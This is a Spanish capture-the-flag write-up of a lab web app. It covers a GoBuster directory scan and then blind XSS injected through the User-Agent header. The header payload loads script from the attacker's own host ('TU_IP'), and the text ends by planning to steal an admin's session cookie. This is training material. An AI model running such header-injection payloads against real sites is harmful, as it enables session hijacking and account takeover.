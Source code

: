 Usaré la herramienta **GoBuster** para buscar posibles directorios en el dominio.

```bash
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20

/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
```


el directorio soporte ya lo conocemos, qué es el que vimos para hacer pregunta, viendo el código de estado **500** en el "**/dashboard**", intuyo que tendremos que debemos loguearnos o arrastrar alguna cookie de sesión, y entrando definitivamente no veo nada ya que no estoy autorizado con mi cookie de sesión default, por lo que se me ocurre probar **XSS** en soporte.

# XXS

Comienzo viendo sí puedo llevar a cabo el **XXS** mediante un intento de obtener un recurso externo hosteado desde mi máquina, ya que al enviar los datos no representa nada en la pantalla de primeras, y hago esto para corroborar & ver sí es éxitoso.
![[Pasted image 20240601110702.png]]

El recurso "**test.js**" lo estaba hosteando desde mi máquina a través de python por el **:80**, pero al darle a "submit" reportó esto:
![[Pasted image 20240601110815.png]]
ha detectado el ataque, esto a qué aparentemente tiene **blacklist** para los intento de **XXS**, intenté bypassearla de varias maneras, usando hexadecimal, incluso de otras maneras contempladas en **HackTricks**, pero no logré nada éxitoso. PERO...

Si leemos el mensaje, dice que la IP se reportó a los administradores para la investigación del navegador, sabemos que el navegador corresponde al **"user-agent"** en las cabeceras de la solicitud, por ende se supone que los administradores verán eso, por lo que se me ocurre ahí cargar el payload para tratar de llevar a cabo el **XXS.**

Usaré **Burpsuite** como proxy para modificar la petición antes que llegue al servidor & manipular el **"user-agent"**, tal que así:
![[Pasted image 20240601111954.png]]
```bash
<script src="http://TU_IP/test"></script>
```

nos montamos un servidor en python aunque no exista el recurso, sólo para ver sí el payload y el recurso "**test**" lo están intentando cargar.
```bash
python3 -m http.server 80
```
![[Pasted image 20240601112013.png]]

Vemos que alguien está intentando cargar el recurso "**test**" de nuestra máquina, así que se me ocurre usar otro payload **XXS** para robarnos la cookie de sesión de quién intente obtener el recurso (quizás el admin).
